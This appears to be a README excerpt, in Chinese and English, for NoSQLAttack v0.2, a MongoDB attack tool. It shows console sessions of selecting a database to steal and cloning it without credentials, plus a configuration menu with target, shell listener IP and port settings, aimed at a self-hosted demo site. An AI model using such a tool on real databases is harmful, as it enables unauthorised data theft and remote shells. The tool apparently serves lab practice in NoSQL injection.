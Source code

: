 ```bash
Select an attack: 3


(1)MultiCopyService_UserData
(2)SmartNFC_UserData
(3)SmartShop_UserData
(4)KioskPointMng2_UserData
(5)admin
(6)db
(7)dbItem
(8)local
Select a database to steal:6
Does this Database require credentials.(y/n)?n
Database cloned. Copy another (y/n)?

```
#选项2系统配置信息演示 
这里以这个攻击地址为例(219.223.240.36/NoSQLInjectionAttackDemo/demo_2.html)，这里的IP：219.223.240.36 下部署了web服务器在我本地的电脑，所以外网是访问不了的，这个用于测试的web站点的源码在这个项目里[NoSQLInjectionAttackDemo](https://github.com/youngyangyang04/NoSQLInjectionAttackDemo). 使用者可以自己搭建一个web服务器然后将这个项目[NoSQLInjectionAttackDemo](https://github.com/youngyangyang04/NoSQLInjectionAttackDemo)的代码放上去就可以运行了，然后将这个IP219.223.240.36换成搭建好的web服务器的IP。
```bash
===============================================
        _   _       _____  _____ _                      
       | \ | |     /  ___||  _  | |                     
       |  \| | ___ \ `--. | | | | |                   
       | . ` |/ _ \ `--. \| | | | |                    
       | |\  | (_) /\__/ /\ \/' / |____          
       \_| \_/\___/\____/  \_/\_\_____/                  
                                        _          
    /\      _      _                   | |  _        
   /  \   _| |_  _| |_   _____    ___  | | / /       
  / /\ \ |_   _||_   _| / __  \  / __| | |/ /        
 / /--\ \  | |    | |_  | |_| |  ||__  | |\ \       
/ / -- \ \ \___\  \___\ \______\ \___| | | \_\      
===============================================    
NoSQLAttack-v0.2
sunxiuyang04@gmail.com


1-Scan attacked IP
2-Configurate parameters
3-MongoDB Access Attacks
4-Injection Attacks
x-Exit
Select an option:2

Options
1-Set target host/IP (Current: Not Set)
2-Set web app port (Current: 80)
3-Set App Path (Current: Not Set)
4-Toggle HTTPS (Current: OFF)
5-Set Not Set Port (Current : 27017)
6-Set HTTP Request Method (GET/POST) (Current: GET)
7-Set my local Not Set/Shell IP (Current: Not Set)
8-Set shell listener port (Current: Not Set)
9-Toggle Verbose Mode: (Current: OFF)
x-Back to main menu
Set an option:1
Enter host or IP/DNS name:219.223.240.36

Target set to:219.223.240.36

```